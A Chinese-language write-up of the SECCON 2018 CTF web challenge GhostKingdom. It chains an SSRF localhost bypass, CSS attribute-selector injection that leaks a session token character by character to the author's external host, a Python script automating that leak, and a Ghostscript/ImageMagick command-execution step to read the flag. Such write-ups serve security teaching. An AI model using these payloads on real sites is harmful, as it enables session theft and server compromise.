时间过的很快，已经大三了，这周通宵参加了SECCON CTF2018，几经周折做出了Web的GhostKindom，还是有一些脑洞的，但也收获颇丰，稍微记录一下
题目描述
直接给了urlhttp://ghostkingdom.pwn.seccon.jp/FLAG/提示flag在此目录下，题目设置在上层目录。
解题思路
打开创建用户并登陆之后出现菜单栏

upload image功能只能本地用户访问
留言功能
给admin留言功能，可以自定义格式

分别选择两种，发现css通过get方法设置

将css用base64解码，获得span{background-color:red;color:yellow}，使用Emergency发现，msg被css渲染

开始猜测会有xss，可是测试了很多发现<>都被html实体编码了，而且admin根本就不会打开这个页面，抓包发现，msg也没有发送到服务端，接着就很迷。。
截图功能
截图界面，输入url可以获得url页面的截图

这里肯定是一个SSRF，url=http://127.0.0.1/发现被禁止了
使用url=http://0.0.0.0/?action=menu，发现未登录，所以构造登陆链接，让服务端作为客户端生成session，登陆url=http://0.0.0.0/?user=donkykk&pass=qqqqqq&action=login
接着再次访问menu，发现upload已经有权限了。

综合利用
我们虽然获得了upload的权限，但是那只是服务端作为客户端获得的，我们只能获得截图，根本都拿不到upload的链接，猜测一波或无果，想了很多办法读取action=menu的源码最后都以失败告终。
可是还有留言功能呢，利用CSS选择器获取页面源码也不错，但只能获得留言界面的源码，menu的并不行。看来一波留言界面的源码，发现有一个csrf

而且在留言时，csrf在get参数中，并且和cookie是一样的

我们虽然不知道upload的链接，也不是内网，但是可以通过css选择器，然后截图功能，按字符获取服务端作为客户端的cookie，如果只是在登陆的时候验证是否是内网，那么当我们获取cookie，就能获得upload的权限了。利用css选择器，截图url=http://0.0.0.0/?css=input[value^=0]{background:url(http://donky.top/css0)}&msg=test&action=msgadm2，当csrf的value=0*时，就会请求http://donky.top/css0， 写脚本使用半自动的方式，获得一个字符后，就重新修改脚本中的cookie1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23import requests
import base64
import time
url = 'http://ghostkingdom.pwn.seccon.jp'
#http://0.0.0.0/?css=input[value^=0]{background:url(http://donky.top/css0-0)}&msg=jj&action=msgadm2
headers = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36',
'Cookie': 'CGISESSID=36d510faf8ac4d863c7644'
}
cookie = ''
for j in range(0, 16):
css = "input[value^=\"%s%s\"]{background:url(\"http://donky.top/css0-%s.jpg\")}" % (cookie, str(hex(j))[2:3], str(j))
params = {
'url':'http://0.0.0.0/?css=%s&msg=test&action=msgadm2' % (base64.b64encode(css.encode('utf-8')).decode('utf-8')).strip('='),
'action': 'sshot2'
}
print(css)
r = requests.get(url, headers=headers, params=params)
print(r.text)
time.sleep(30)
最后终于获得了cookie

浏览器修改cookie后，发现真的能够upload，感觉确实有一些脑洞啊，进入upload界面，随便上传一张图片，可以转成gif

转化发现url=http://ghostkingdom.pwn.seccon.jp/ghostMagick.cgi?action=convertghostMagick是ImameMagick的上层应用，有很多漏洞，找到了一篇文章http://gv7.me/articles/2018/ghostscript-rce-20180821/

我生成了两张poc图片。发现centos成功回显，将命令改为ls ./FLAG发现

最后获得flag
